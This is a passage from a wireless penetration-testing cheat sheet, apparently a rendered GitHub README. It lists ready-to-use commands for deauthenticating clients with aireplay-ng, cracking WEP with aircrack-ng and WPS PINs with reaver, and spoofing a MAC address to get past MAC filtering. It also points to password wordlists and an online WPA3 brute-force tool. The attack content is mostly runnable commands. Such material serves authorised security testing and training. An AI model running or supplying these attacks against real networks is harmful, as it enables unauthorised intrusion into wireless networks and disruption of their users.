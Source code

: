 ```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

## 4. Wordlists

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` or in SecLists.

Download a useful collection of multiple types of lists for security assessments.

Installation:

```bash
apt-get update && apt-get install seclists
```

Lists will be stored at `/usr/share/seclists/`.

Or, manually download the collection from [GitHub](https://github.com/danielmiessler/SecLists/releases).

Another popular wordlist collections:

* [xmendez/wfuzz](https://github.com/xmendez/wfuzz)
* [assetnote/commonspeak2-wordlists](https://github.com/assetnote/commonspeak2-wordlists)
* [weakpass.com/wordlist](https://weakpass.com/wordlist)
* [packetstormsecurity.com/Crackers/wordlists](https://packetstormsecurity.com/Crackers/wordlists)

### Online Bruteforce for WPA3/WAP2 

Check the team blunderbuss-wctf for their online bruteforce tool. [blunderbuss-wctf/wacker](https://github.com/blunderbuss-wctf/wacker)Credits to the author!

## 5. Post-Exploitation

If MAC address filtering is active, change the MAC address of a wireless interface to an existing one:

```fundamental
ifconfig wlan0 down && macchanger --mac FF:FF:FF:FF:FF:FF && ifconfig wlan0 up
```
